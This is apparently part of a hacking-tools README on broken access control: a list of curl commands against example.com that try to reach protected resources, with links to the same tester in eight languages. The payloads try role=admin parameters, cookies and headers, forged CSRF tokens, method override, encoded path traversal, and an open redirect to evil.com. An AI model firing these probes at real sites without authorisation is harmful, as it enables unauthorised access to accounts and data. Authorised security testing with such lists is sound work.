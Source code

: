 ```bash
curl -i http://example.com/protected/resource -H "Content-Security-Policy: frame-ancestors 'none'"
curl -i http://example.com/protected/resource -H "Referer: http://evil.com"
curl -i http://example.com/protected/resource?role=admin
curl -i http://example.com/protected/resource#admin-section
curl -i http://example.com/protected/resource -H "Cookie: role=admin"
curl -X POST -d "role=admin" -i http://example.com/protected/resource
curl -X POST -d "csrf_token=attacker_token" -i http://example.com/protected/resource
curl -i http://example.com/non-existent-page
curl -i http://example.com/protected-resource -H "Cache-Control: no-store"
curl -i http://example.com/protected-resource.old
curl -i http://example.com/protected/resource?admin=true
curl -i http://example.com/protected/resource -H "X-Role: admin"
curl -i http://example.com/error/404
curl -X POST -H "X-HTTP-Method-Override: PUT" -i http://example.com/protected/resource
curl -i http://example.com/protected/resource -H "User-Agent: admin_browser"
curl -X POST -H "Content-Type: application/json" -d '{"role": "admin"}' -i http://example.com/protected/resource
curl -i http://example.com/admin/resource?access_level=admin
curl -i "http://example.com/user/%252E%252E/admin"
curl -i "http://example.com/admin?role=%2E%2E%2Fadmin"
curl -i "http://example.com/user/%u202E%u202E/admin"
curl -i "http://example.com/protected/resource" -H "Cookie: role=%u202E%u202Eadmin"
curl -iL "http://example.com/redirect?url=http://evil.com"
curl -i -H "Cookie: session=<session_id>" -X GET http://example.com/protected/resource
curl -i -X PUT -H "Content-Type: application/json" -d '{"role": "admin"}' http://example.com/api/resource
curl -i -N -H "Connection: Upgrade" -H "Upgrade: websocket" -H "Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ==" http://example.com/websocket
curl -i -X POST -H "Content-Type: application/json" -d '{"query": "{ user(id: \"admin\") { name } }"}' http://example.com/graphql

```

## Corresponding Tools

	- [**Bash**](https://github.com/saidehossain/Hacking_Tools/blob/main/hacking_with_bash/broken_access_control.sh)
	- [**Go**](https://github.com/saidehossain/Hacking_Tools/blob/main/hacking_with_go/broken_access_control.go)
	- [**Java**](https://github.com/saidehossain/Hacking_Tools/blob/main/hacking_with_java/BrokenAccessControlTester.java)
	- [**JavaScript**](https://github.com/saidehossain/Hacking_Tools/blob/main/hacking_with_javascript/broken_access_control.js)
	- [**Perl**](https://github.com/saidehossain/Hacking_Tools/blob/main/hacking_with_perl/broken_access_control.pl)
	- [**PHP**](https://github.com/saidehossain/Hacking_Tools/blob/main/hacking_with_php/broken_access_tool.php)
	- [**Python**](https://github.com/saidehossain/Hacking_Tools/blob/main/hacking_with_python/broken_access_control.py)
	- [**Ruby**](https://github.com/saidehossain/Hacking_Tools/blob/main/hacking_with_ruby/broken_access_control.rb)
